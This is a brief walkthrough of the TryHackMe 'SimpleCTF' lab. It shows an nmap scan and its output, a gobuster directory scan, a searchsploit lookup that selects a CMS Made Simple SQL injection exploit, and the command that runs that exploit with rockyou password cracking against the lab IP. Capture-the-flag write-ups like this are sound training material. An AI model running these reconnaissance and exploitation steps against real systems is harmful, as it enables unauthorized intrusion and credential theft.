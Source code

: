 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


#### nmap scan
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan
`gobuster dir -u http://10.10.90.196 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`



#### search for exploits

`searchsploit cms made simple`

```
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                                                                                                                      | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection <------- Using this one                                                                                                                                                     | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target
`/usr/bin/python2 exploit.py -u http://10.10.90.196 --crack -w /usr/share/wordlists/rockyou.txt`


